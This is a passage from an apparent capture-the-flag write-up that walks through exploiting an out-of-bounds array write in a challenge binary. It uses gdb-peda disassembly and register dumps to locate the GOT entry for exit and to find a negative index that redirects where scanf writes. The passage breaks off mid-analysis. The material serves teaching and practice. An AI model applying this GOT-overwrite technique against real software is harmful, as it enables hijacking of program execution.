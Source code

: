 There is a call to the PLT of `exit` just before our function ends. If we disassemble it we can get the GOT entry for `exit`:
```console
gdb-peda$ disassemble 0x4010b0
Dump of assembler code for function exit@plt:
   0x00000000004010b0 <+0>:	jmp    QWORD PTR [rip+0x3f8a]        # 0x405040 <exit@got.plt>
   0x00000000004010b6 <+6>:	push   0x8
   0x00000000004010bb <+11>:	jmp    0x401020
End of assembler dump.
```

There it is : `0x405040`. My point is, if we can find the right integer input, we can potentially force the program to write our `Watermelon` or for that matter any data into the GOT entry for `exit` eventually redirecting code execution.

Let's find that right integer. If we set a breakpoint just before the program writes data to the memory location based on our input, we can find out where it is writing to.
```console
gdb-peda$ b * basket +178
Breakpoint 1 at 0x401604
gdb-peda$ run
Starting program: /home/vulnx/CTFs/sunshine/array_of_sunshine/sunshine 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
MMMMMMMMMMMMMMMMMMMMMMMMMWx..cONMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMXkc..;xNMMMMWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
...
Which fruit would you like to eat [0-3] >>> -5
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x7fffffffe678 --> 0x7fffffffe987 ("/home/vulnx/CTFs/sunshine/array_of_sunshine/sunshine")
RCX: 0x0 
RDX: 0xffffffffffffffd8 
RSI: 0x405058 --> 0x0 
RDI: 0x402e7d --> 0x6972700073343225 ('%24s')
RBP: 0x7fffffffe540 --> 0x7fffffffe560 --> 0x1 
RSP: 0x7fffffffe510 --> 0xfffffffb00000000 
RIP: 0x401604 (<basket+178>:	call   0x4010a0 <__isoc99_scanf@plt>)
R8 : 0x1999999999999999 
R9 : 0xa ('\n')
R10: 0x7ffff7d82ac0 --> 0x100000000 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffe688 --> 0x7fffffffe9bc ("SHELL=/bin/zsh")
R14: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0 
R15: 0x404e00 --> 0x401170 (<__do_global_dtors_aux>:	endbr64)
EFLAGS: 0x203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f5 <basket+163>:	lea    rax,[rip+0x1881]        # 0x402e7d
   0x4015fc <basket+170>:	mov    rdi,rax
   0x4015ff <basket+173>:	mov    eax,0x0
=> 0x401604 <basket+178>:	call   0x4010a0 <__isoc99_scanf@plt>
   0x401609 <basket+183>:	mov    QWORD PTR [rbp-0x28],0x404020
   0x401611 <basket+191>:	mov    QWORD PTR [rbp-0x20],0x404038
   0x401619 <basket+199>:	mov    rax,QWORD PTR [rbp-0x28]
   0x40161d <basket+203>:	mov    rax,QWORD PTR [rax]
Guessed arguments:
arg[0]: 0x402e7d --> 0x6972700073343225 ('%24s')
arg[1]: 0x405058 --> 0x0 
arg[2]: 0xffffffffffffffd8 
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe510 --> 0xfffffffb00000000 
0008| 0x7fffffffe518 --> 0x7fffffffe688 --> 0x7fffffffe9bc ("SHELL=/bin/zsh")
0016| 0x7fffffffe520 --> 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0 
0024| 0x7fffffffe528 --> 0x40153b (<logo+623>:	nop)
```